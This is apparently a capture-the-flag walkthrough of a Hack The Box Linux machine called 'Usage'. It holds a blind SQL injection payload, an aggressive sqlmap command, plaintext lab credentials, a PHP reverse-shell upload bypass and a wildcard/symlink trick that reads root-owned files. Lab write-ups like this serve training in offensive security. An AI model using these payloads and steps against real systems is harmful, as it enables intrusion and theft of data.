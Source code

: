 ## Linux Machine Usage

--[+] :  Target IP :

      >> 10.10.11.18
     
## Recon 
--[1] : Nmap
```nmap
		PORT   STATE SERVICE
		22/tcp open  ssh
		80/tcp open  http
```
	>> Port 80 appears to be running laravel
	
--[2] :  Gobuster 
      >> http://usage.htb/ 503 and 404 only 

--[3] :  Page subdomains :

      >> http://admin.usage.htb/

## Foothold
--[+] :  Blind sql injection on http://usage.htb/forget-password  :
      >> payload : ' AND 1=1;-- -
      >> sqlmap -r req.txt --risk=3 --level=5 --batch --dbms=mysql --dbs

available databases [3]:
[*] information_schema
[*] performance_schema
[*] usage_blog

      
      dump is fucked up lets see another time ... maybe machine down 
      
      //15-06-2024 -> completing the machine 
## admin.usage.htb    
- [1] : Credentials
   >>	admin:whatever1
      
## user dash 

- [1] : Php revershell through image
  >>	Go to settings and snuggle a revshell , bypass it with burpsuite 

## user xander
      in .monitrc
      admin:3nc0d3d_pa$$w0rd
## root
- [1] : sudo -l
  >>	/usr/bin/usage_management 
  >>	source (https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks)
		touch @root.txt
		ln -s /file/you/want/to/read root.txt
       

